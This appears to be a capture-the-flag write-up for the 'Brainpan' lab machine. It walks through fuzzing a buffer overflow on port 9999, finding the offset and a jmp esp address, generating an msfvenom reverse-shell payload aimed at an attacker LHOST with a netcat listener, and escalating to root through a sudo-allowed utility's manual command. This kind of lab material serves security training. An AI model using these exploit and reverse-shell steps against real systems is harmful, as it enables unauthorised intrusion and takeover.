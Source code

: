  
# 1. python3 threader.py 
here we find two port 9999, 10000 are opened and at 10000 SimpleHTTPServer 0.6 (Python 2.7.3) .
# 2. A web portal was live.

# 3. I used gobuster for directory traversal 
``` gobuster  dir  -u http://http://10.10.188.178:10000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  ```
# Found /bin directory

![alt text](/home/kalg/Screenshots/brainpan.png)

Download brainpan.exe file 
# Open File In Immunity Debugger 
Start running

Now bruteforcing by 

``` nc ip 9999 ```
 
 ## I found 
 A buffer overflow while giving the 900 'A' .
 Generate cyclic pattern using metasploit-framework 

 ```/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 900 ```

Found an offset of 524
![alt text](/home/kalg/Screenshots/binary.png)

Now edit the value of offset to 524 and assign the value to return address BBBB then run again  and see return is overwritten.

# Generate Badchar 
-> add badchar to payload 
-> exclude '\x00' from the 

``` !mona bytearray -b '\x00'```

-> Remove '\x00' from badchars

-> run the exploit then 

->run 
``` !mona compare -f c:\mona\brainpan\bytearray.bin```

Then I find the no badchars 

-> then run

```!mona jmp -r esp -cpb '\x00'```

Find ``` jmp esp``` 

I found ``0x311712f3``

-> Generate payload using msfvnom

``msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.17.47.191 LPORT=4444 -f c -b "\x00"``

-> Replace payload with generated payload 

->Prepend and append no ops '\x90' 

-> Run exploit

->Put a listener ``nc -lvnp 4444```
## Now you are able to gain reverse shell
-> Now change the ip to machine address then in msfvenom command and replace generated payload

-> Now run again 

## -> OOhOO now you got the shell.
But the shell command is not working properly I typed ls but not worked then i typed dir ,It worked but linux commands are not working then i see the ``checksrv.sh`` file i found it is using absolute path for command . To fix you can follow this link but not sure that it will work for you
 https://askubuntu.com/questions/1091553/how-do-i-fix-error-opening-terminal-unknown-on-ubuntu-server

-> I run /usr/bin/sudo -l
```
Matching Defaults entries for puck on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User puck may run the following commands on this host:
    (root) NOPASSWD: /home/anansi/bin/anansi_util
```

Here `` anansi_util`` can run without being root 
Run that found -
``` Z:\home\puck>/usr/bin/sudo /home/anansi/bin/anansi_util

Z:\home\puck>Usage: /home/anansi/bin/nansi_util [action]
Where [action] is one of:
  - network
  - proclist
  - manual [command]
```

Run ```/usr/bin/sudo /home/anansi/bin/anansi_util manual id ```

then `` !/bin/bash``
Now you are a root user
